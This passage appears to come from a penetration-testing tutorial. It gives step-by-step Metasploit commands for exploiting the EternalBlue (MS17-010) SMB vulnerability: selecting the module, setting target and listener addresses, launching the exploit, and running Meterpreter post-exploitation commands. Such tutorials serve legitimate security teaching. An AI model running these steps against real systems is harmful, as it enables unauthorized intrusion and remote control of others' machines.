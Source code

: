 **Step 2: Search for EternalBlue Exploit**

```bash
msf > search eternalblue
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**Step 3: Select the Exploit**

```bash
msf > use exploit/windows/smb/ms17_010_eternalblue
```

**Step 4: Set the Required Options**

```bash
msf exploit(ms17_010_eternalblue) > set RHOST <target_ip>
msf exploit(ms17_010_eternalblue) > set LHOST <your_ip>
```

**Step 5: Launch the Exploit**

```bash
msf exploit(ms17_010_eternalblue) > exploit
```

**Step 6: Post-Exploitation**

* **Meterpreter Session**: Once the exploit is successful, you will have a Meterpreter session, allowing you to execute commands on the target system.

```bash
meterpreter > sysinfo
meterpreter > getuid
```
